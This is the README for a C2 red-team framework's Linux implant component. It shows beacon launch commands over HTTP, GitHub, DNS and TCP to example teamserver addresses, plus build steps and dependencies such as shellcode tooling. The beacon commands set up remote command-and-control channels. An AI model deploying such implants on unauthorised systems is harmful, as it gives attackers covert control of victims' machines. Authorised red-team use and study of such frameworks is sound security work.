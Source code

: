 # Exploration C2 Linux Implant

## Overview

**Exploration** is a modular Command and Control (C2) framework designed for red team operations. This repository provides the **Beacon** component implemented in C++ for targeting Linux systems. The associated TeamServer and Client components are available in the [C2TeamServer](https://github.com/maxDcb/C2TeamServer) repository.

Multiple Beacons in this project are capable of communicating with the TeamServer over various channels. Supported transport mechanisms include HTTP/HTTPS, GitHub, DNS, and TCP.

## Communication Examples

```bash
# HTTP/HTTPS
BeaconHttp <TEAMSERVER_IP> <LISTENER_PORT> <http|https>
BeaconHttp 10.10.10.10 8443 https
BeaconHttp 10.10.10.10 8080 http

# GitHub
BeaconGithub <GITHUB_USER/REPO> <ACCESS_TOKEN>
BeaconGithub maxDcb/C2Implant ghp_dsfgdfhdf5554456g4fdg465...

# DNS
BeaconDns <DNS_SERVER> <TEAMSERVER_DOMAIN>
BeaconDns 8.8.8.8 bac.superdomain.com

# TCP
BeaconTcp <LISTENER_IP> <LISTENER_PORT>
BeaconTcp 127.0.0.1 4444
```

## Build Instructions

### Submodules & External Dependencies

This project utilizes several external libraries and tools:

* [Donut](https://github.com/TheWover/donut): Generates shellcode from PE files.
* [COFFLoader](https://github.com/trustedsec/COFFLoader): Executes object files, such as those in [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF).
* [cpp-base64](https://github.com/ReneNyffenegger/cpp-base64): Provides base64 encoding/decoding.
* [nlohmann/json](https://github.com/nlohmann/json): JSON parsing library.

### Building the Linux Beacons and Modules

Initialize submodules and prepare the build environment:

```bash
git submodule update --init
mkdir build
cd build
```

Compile with or without tests and logging:

```bash
# With tests and logs
cmpake .. -DCMAKE_PROJECT_TOP_LEVEL_INCLUDES=./conan_provider.cmake -DWITH_TESTS=ON

# Without tests and logs
cmake .. -DCMAKE_PROJECT_TOP_LEVEL_INCLUDES=./conan_provider.cmake -DWITH_TESTS=OFF

make -j4
```

### Output Locations

* Compiled Beacons: `Release/Beacons`
* Compiled Modules: `Release/Modules`
